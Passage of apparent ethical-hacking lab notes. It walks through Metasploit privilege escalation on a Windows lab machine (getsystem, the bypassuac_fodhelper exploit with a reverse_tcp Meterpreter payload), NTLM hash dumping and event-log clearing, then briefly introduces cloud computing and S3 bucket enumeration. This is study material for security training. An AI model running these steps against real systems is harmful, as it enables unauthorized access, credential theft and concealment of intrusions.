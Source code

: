 19. Now, we shall try to escalate the privileges by issuing a getsystem command that attempts to elevate the user privileges.
20. The command issued is: `getsystem -t 1`: Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique. The command fails to escalate privileges and returns an error stating Operation failed.
21. Type in the command : `background`
22. Now, we will use the **bypassuac_fodhelper** exploit for windows. To do so, type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**.
23. Type set SESSION 1 (1 is the current Meterpreter session which is running in the background)
24. Now that we have configured the exploit, our next step will be to set and configure a payload. To do so, type set payload windows/meterpreter/reverse_tcp and press Enter. This will set the meterpreter/reverse_tcp payload. Do check all the options before exploiting using the command `show options`
25. To set the TARGET option, type set TARGET 0 and press Enter (here, 0 indicates nothing, but the Exploit Target ID).
	![[Pasted image 20241211164236.png]]
26. Now, check the output of the command `getuid`, we get the result as `Windows11\Admin`
27. Now, to elevate the privileges, we again are required to type in the command : `getsystem -t 1`
28. Type the command run post/windows/gather/smart_hashdump and press Enter. This time, Meterpreter successfully extracts the NTLM hashes and displays them.
29. You can now remotely execute commands such as clearev to clear the event logs that require administrative or root privileges. To do so, type clearev and press Enter.
	![[Pasted image 20241211164545.png]]

 ##### Hack a Windows Machine using Metasploit and Perform Post-Exploitation using Meterpreter
 The Metasploit Framework is a tool for developing and executing exploit code against a remote target machine. It is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. It contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. Meterpreter is a Metasploit attack payload that provides an interactive shell that can be used to explore the target machine and execute code.



# Cloud Computing
Cloud computing refers to on-demand delivery of IT capabilities, in which IT infrastructure and applications are provided to subscribers as metered services over a network. Cloud services are classified into three categories, namely infrastructure-as-a-service (IaaS), platform-as-a-service (PaaS), and software-as-a-service (SaaS), which offer different techniques for developing cloud.

**S3 Buckets** : An S3 bucket is a container for storing objects in Amazon Web Services (AWS) Simple Storage Service (S3). Buckets are similar to file folders and are used to organize and manage data in the cloud.
### Perform S3 Bucket Enumeration using Various S3 Bucket Enumeration Tools
Enumeration tools are used to collect detailed information about target systems to exploit them. Information collected by S3 enumeration tools consists of a list of misconfigured S3 buckets that are available publicly. Attackers can exploit these buckets to gain unauthorized access to them. Moreover, they can modify, delete, and exfiltrate the bucket content.
